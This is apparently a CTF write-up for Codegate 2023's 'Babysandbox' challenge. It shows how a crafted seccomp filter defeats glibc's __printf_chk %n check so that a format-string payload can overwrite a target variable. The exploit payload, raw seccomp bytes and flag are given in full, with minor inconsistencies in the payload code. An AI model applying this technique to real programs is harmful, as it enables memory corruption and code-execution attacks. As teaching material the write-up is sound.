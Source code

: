 ```yaml
---
title: Babysandbox
date: 2023-07-09T01:52:07+03:00
description: Writeup for Babysandbox [Codegate Qualifs 2023]
type: writeup
author: zenbassi
tags:
- pwn
- misc
draft: true
---
```

___

## Challenge Description

Can't remember. ups

## Intuition

For this challenge we have the source code available, so looking at it we notice a few things.

Firstly, we notice that the first input is the length and the payload for a seccomp rule. Then we see that a first check is passed and `vuln` is called. We can provide a second input of maximum 256 bytes, which is used in a printf-like function. This looks like a classic string-format vulnerability.

```c
void vuln() {
    char input[0x100];
    memset(input, 0, sizeof(input));

    __printf_chk(1, "Let's check our mitigation ^_^\n");
    __printf_chk(1, "Protect : %p\n", &target);
    int res = read(0, input, sizeof(input) - 1);
    if (res < 0) {
        __printf_chk(1, "Functionality is broken T_T\n");
        return;
    }
    // We have a dangerous vulnerability here!
    __printf_chk(1, input); // <- string format vulnerability

    if (target == 0x1337) {
        __printf_chk(1, "Mitigation failed.. The flag has been exposed T_T\n");
        read_flag();
    }
    else {
        __printf_chk(1, "\nNow we are safe from memory corruption! Thank you ^_^\n");
    }
    return;
}
```

The issue is that `__printf_chk` is a hardened version of `printf` which
doesn't allow the use of `%n` to write to memory. We have to somehow bypass
this limitation in order to change the value in `target` to `0x1337`.


## Solution

The easiest way we found to generate seccomp payloads is to use `seccomp-tools`
[^1]. If we compile `return ALLOW` we get `\x06\x00\x00\x00\x00\x00\xFF\x7F`.
To make this a valid payload we prepend the 4-byte length and get
`\x08\x00\x00\x00\x06\x00\x00\x00\x00\x00\xff\x7f`. Sending this to the program 
passes the seccomp-loading phase, so we're good in that regard.

Now what? 

### The seccomp payload

We somehow have to bypass the check in `__printf_chk` and might be able to use
some seccomp rules to achieve this. Luckily, we found
[this](https://bruce30262.github.io/hxp-CTF-2017-hardened-flag-store/) [^2]
blog post, which pretty much does exactly what we need. Looking in the `glib`
implementation of `__printf_chk`, we see that the issue described in the blog
still exists. To find this, I just searched on
[codebrowser](https://codebrowser.dev/glibc/glibc/) for the error `*** %n in
writab...`.

```c
if ((mode_flags & PRINTF_FORTIFY) != 0)
{
    if (!readonly_format)
    {
        extern int __readonly_area (const void *, size_t)
    attribute_hidden;
        readonly_format
    = __readonly_area (format, ((STR_LEN (format) + 1)
                    * sizeof (CHAR_T)));
    }
    if (readonly_format < 0)
    __libc_fatal ("*** %n in writable segment detected ***\n");
}
```

It's clear that `__readonly_area` gets called and returns something lower than
0. The plan would be to return something greater than 0 to bypass the security
check. Looking at the `__readonly_area` implementation we see the following:

```c
  FILE *fp = fopen ("/proc/self/maps", "rce");
  if (fp == NULL)
    {
      /* It is the system administrator's choice to not have /proc
	 available to this process (e.g., because it runs in a chroot
	 environment.  Don't fail in this case.  */
      if (errno == ENOENT
	  /* The kernel has a bug in that a process is denied access
	     to the /proc filesystem if it is set[ug]id.  There has
	     been no willingness to change this in the kernel so
	     far.  */
	  || errno == EACCES)
	return 1;
      return -1;
    }
```

It's clear now that if we make `fopen` fail with `ENOENT` or `EACCESS` the
function will return 1, which will bypass the check we're concerned with.
This is achievable via seccomp rules:

```
A = sys_number
A != openat ? ok : next
A = args[1]
A &= 0xff
A == 0x47 ? ok : next
return ERRNO(13) # ERRNO(EACCES)
ok:
return ALLOW
```
Notice a few things:
1. We're looking for the `openat` syscall. We wasted a lot of time trying to
   catch an `open` syscal, but eventually thought of running our binary with
   `strace`. Only then we saw the it calls `openat`.
2. We also check the first argument of the `openat` call, which is the file
   name address. `0x47` is the last byte of the `FLAG_PATH` address.

### The string format exploit

We have to write `0x1337` to the address. The way we can to this is by using
the `%n` format modifier, which writes **the number of bytes written so** to the address given. However, we have to use some tricks in order to abuse this.

1. The first trick is to use `%{k}c` which prints a character given as argument
   but also pads it to the left with spaces until the number of outputted
   characters is equal to $k$.
2. In order to use `%n` with a given address, we first have to _consume_
   some arguments. We can do that using `%p`. Now the question is, how many
   arguments? 6 at least are taken from registers, which we have no control
   over. The following are taken from the stack, 8 bytes at a time (if we use
   `%p`), so we have to carefully align everything.

Our final payload looked like this:
```
x = 4771
seccomp_payload = b" \x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x04\x01\x01\x00\x00 \x00\x00\x00\x18\x00\x00\x00T\x00\x00\x00\xFF\x00\x00\x00\x15\x00\x01\x00G\x00\x00\x00\x06\x00\x00\x00\r\x00\x05\x00\x06\x00\x00\x00\x00\x00\xFF\x7F"
payload = p32(len(payload)) + seccomp_payload

payload += f'%{x}c%p.%p.%p.%p.%p.%p.%p.%p.%p.%p%naaa'.encode()
payload += p64(0x404088) # target address
```

The length of the given format string (excluding the target address) is exactly 40 bytes, meaning that we have to use 5 `%p`s to consume it all. In the end we append the target address to the payload so `%n` writes to it. `x` has to be adjusted according to how much characters are printed overall (can be easily done with gdb).

### Flag

`bestctf{.hidden_struggled_with_this_one}`

## References (in case you used [^footnotes] thingies)
[^1]: seccomp-tools: https://github.com/david942j/seccomp-tools
[^2]: 2017 HXP CTF - hardened flag writeup: https://bruce30262.github.io/hxp-CTF-2017-hardened-flag-store/
